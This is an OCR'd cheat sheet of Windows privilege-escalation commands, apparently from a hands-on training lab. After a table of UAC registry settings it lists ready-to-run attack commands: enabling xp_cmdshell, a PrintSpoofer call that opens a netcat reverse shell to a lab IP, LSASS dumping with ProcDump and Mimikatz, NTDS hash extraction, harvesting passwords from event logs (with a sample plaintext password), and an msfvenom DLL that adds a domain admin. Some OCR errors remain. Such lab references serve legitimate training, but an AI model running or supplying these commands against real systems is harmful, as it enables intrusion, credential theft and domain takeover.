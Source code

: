 | `[User Account Control: Behavior of the elevation prompt for standard users](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-behavior-of-the-elevation-prompt-for-standard-users)` | ConsentPromptBehaviorUser |

| `[User Account Control: Detect application installations and prompt for elevation](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-detect-application-installations-and-prompt-for-elevation)` | EnableInstallerDetection |

| `[User Account Control: Only elevate executables that are signed and validated](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-only-elevate-executables-that-are-signed-and-validated)` | ValidateAdminCodeSignatures |

| `[User Account Control: Only elevate UIAccess applications that are installed in secure locations](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-only-elevate-uiaccess-applications-that-are-installed-in-secure-locations)` | EnableSecureUIAPaths |

| `[User Account Control: Run all administrators in Admin Approval Mode](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-run-all-administrators-in-admin-approval-mode)` | EnableLUA |

| `[User Account Control: Switch to the secure desktop when prompting for elevation](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-switch-to-the-secure-desktop-when-prompting-for-elevation)` | PromptOnSecureDesktop |

| `[User Account Control: Virtualize file and registry write failures to per-user locations](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-virtualize-file-and-registry-write-failures-to-per-user-locations)` | EnableVirtualization |

| ``mssqlclient.py sql_dev@10.129.43.30 -windows-auth`` | Connect using mssqlclient.py |

| ``enable_xp_cmdshell`` | Enable xp\_cmdshell with mssqlclient.py |

| ``xp_cmdshell whoami`` | Run OS commands with xp\_cmdshell |

| ``c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"`` | Escalating privileges with [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) |

| ``procdump.exe -accepteula -ma lsass.exe lsass.dmp`` | Take memory dump with ProcDump |

| ``sekurlsa::minidump lsass.dmp` and `sekurlsa::logonpasswords`` | Use MimiKatz to extract credentials from LSASS memory dump |

| ``dir /q C:\backups\wwwroot\web.config`` | Checking ownership of a file |

| ``takeown /f C:\backups\wwwroot\web.config`` | Taking ownership of a file |

| ``Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ \| select name,directory, @{Name=“Owner”;Expression={(Ge t-ACL $_.Fullname).Owner}}`` | Confirming chan2ged ownership of a file |

| ``icacls “C:\backups\wwwroot\web.config” /grant htb-student:F`` | Modifying a file ACL |

| ``secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL`` | Extract hashes with secretsdump.py |

| ``robocopy /B E:\Windows\NTDS .\ntds ntds.dit`` | Copy files with ROBOCOPY |

| ``wevtutil qe Security /rd:true /f:text \| Select-String "/user"`` | Searching security event logs |

| ``wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 \| findstr "/user"`` | Passing credentials to wevtutil |

| ``Get-WinEvent -LogName security \| where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } \| Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}`` | Searching event logs with PowerShell |

| ``msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll`` | Generate malicious DLL |
